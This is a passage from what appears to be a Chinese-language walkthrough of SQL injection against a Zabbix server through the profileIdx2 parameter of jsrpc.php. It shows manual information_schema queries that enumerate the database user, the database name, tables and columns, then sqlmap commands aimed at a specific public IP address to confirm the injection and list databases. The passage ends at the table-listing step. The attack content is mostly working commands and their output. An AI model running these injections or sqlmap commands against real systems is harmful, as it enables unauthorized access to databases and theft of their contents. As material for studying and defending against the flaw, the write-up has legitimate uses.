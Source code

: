 ```
user()
root@172.29.0.4
```

![image-20220306151729344](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061517417.png)

```
databse（）
zabbix
```

![image-20220306151710275](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061517404.png)

```
太长了出现截断只能盲猜表明了
表名
select group_concat(table_name) from information_schema.tables where table_schema=database()
```

![image-20220306153459285](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061534430.png)

```
列名 盲猜表名是users
(select group_concat(column_name) from information_schema.columns where table_name='users')
USER,CURRENT_CONNECTIONS,TOTAL_
```

![image-20220306153711614](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061537686.png)

> ##### 手工注入出现各种限制  尝试使用 sqlmap

### 4、sqlmap注入

#### 1、检查注入

```
python sqlmap.py "http://212.129.238.18:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=s" 
-p profileIdx2
```

![image-20220306160235877](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061602998.png)

#### 2、查看数据库

```
python sqlmap.py "http://212.129.238.18:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=s" 
-p profileIdx2 --dbs
```

![image-20220306160337939](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061603985.png)

#### 3、查看表名
